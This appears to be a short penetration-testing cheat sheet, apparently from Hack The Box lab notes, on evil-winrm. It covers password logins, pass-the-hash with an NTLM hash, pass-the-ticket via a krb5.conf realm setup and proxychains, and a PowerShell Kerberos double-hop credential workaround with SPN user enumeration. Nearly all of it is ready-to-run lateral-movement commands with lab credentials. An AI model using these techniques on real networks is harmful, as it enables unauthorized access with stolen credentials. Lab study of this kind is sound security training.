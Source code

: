 ```yaml
---
tags:
  - PtH
  - PtT
---
```

```shell-session
$ evil-winrm -i 10.129.201.248 -u 'Cry0l1t3' -p 'P455w0rD!' [--port <PORT>]
```
# Pass the Hash
```shell-session
$ evil-winrm -i <IP> -u <USER>[@DOMAIN] -H 30B3783CE2ABF1AF70F77D0660CF3453
```

# Pass the Ticket
Prerequisite: `krb5-user`
Once installed, change `/etc/krb5.conf` to include the following:
```shell-session
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB
<SNIP>
[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
<SNIP>
```

```shell-session
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```
# Kerberos "Double-Hop"
[[klist]] can confirm if any forwardable credentials are stored.
```powershell
PS > $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
PS > get-domainuser -spn -credential $Cred | select samaccountname
```